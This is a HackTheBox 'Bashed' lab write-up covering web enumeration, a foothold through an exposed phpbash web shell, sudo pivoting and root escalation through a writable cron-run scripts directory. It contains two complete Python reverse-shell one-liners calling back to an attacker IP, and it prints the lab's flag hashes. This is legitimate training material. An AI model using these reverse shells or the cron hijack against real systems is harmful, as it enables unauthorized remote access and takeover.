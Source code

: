 ```yaml
---
title: HackTheBox - Bashed
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /Writeups/HackTheBox/Linux/Bashed/images/
image:
  src: Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details |
| ------------ | ------- |
| Box Name     | Bashed  |
| IP           | 10.10.10.68        |
| Points       | -       |
| Difficulty   | Easy    |
| Creator      |  [Arrexel](https://www.hackthebox.com/home/users/profile/2904)       |
| Release Date |   09-Sep-2022      |


# Recon

## TCP/80 (HTTP)
### FFUF
```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
- `/dev`


# Initial Foothold

## TCP/80 (HTTP) - Remote Code Execution

1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![](Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell
	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. `www-data`/low-privilege shell obtained
	![](Pasted%20image%2020220821004455.png)
5. User Flag
	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```
	![](Pasted%20image%2020220821004539.png)

# Privilege Escalation

## Script Manager - Via Sudo
1. Check sudo access for `www-data`
	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```
	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell
	```
	sudo -u scriptmanager /bin/bash
	```
![](Pasted%20image%2020220821004942.png)


## Root - Via Cronjob
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![](Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script
	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```
4. Start listener and wait for cronjob to execute to obtain `root` shell
	![](Pasted%20image%2020220821010927.png)
5. Root Flag
	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```
	![](Pasted%20image%2020220821011004.png)

6. View cronjob executed by `root`

	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	```
